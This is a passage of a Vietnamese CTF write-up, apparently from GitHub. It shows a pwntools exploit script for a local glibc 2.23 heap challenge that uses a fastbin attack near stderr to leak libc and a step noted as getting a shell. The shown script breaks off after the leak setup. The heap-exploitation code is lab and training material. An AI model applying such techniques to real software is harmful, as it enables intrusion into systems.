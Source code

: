 ![image](https://github.com/gookoosss/CTF/assets/128712571/2f2553ac-3751-425a-ac3d-7967de75cf5b)


```python
# get shell
p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'Size: ', str(0x4040a0))
```

- lúc này ta đã lấy shell rồi

![image](https://github.com/gookoosss/CTF/assets/128712571/66a0c65d-28d1-4d67-9a14-a2bc819a48a4)



## script

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall1_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")

context.binary = exe


p = process([exe.path])

gdb.attach(p, gdbscript = '''
b*main+407
b*main+329
b*main+192
b*main+241
b*main+488
c
''')
           
input()

def add(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Size: ', str(size))
    p.sendafter(b'Content: ', data)

def edit(data):
    p.sendlineafter(b'> ', b'2')
    p.sendafter(b'Content: ', data)

def delete():
    p.sendlineafter(b'> ', b'3')
    
def show():
    p.sendlineafter(b'> ', b'4')

# leak_libc

size = 0x70 - 8 # fast bins = 0x70
add(size, b'a' *8)
delete()
edit(p64(exe.sym['stderr'] - 19)) # size == 0x7f, add to fast bin 0x70
add(size, b'a' *8)
add(size, b'abc')
```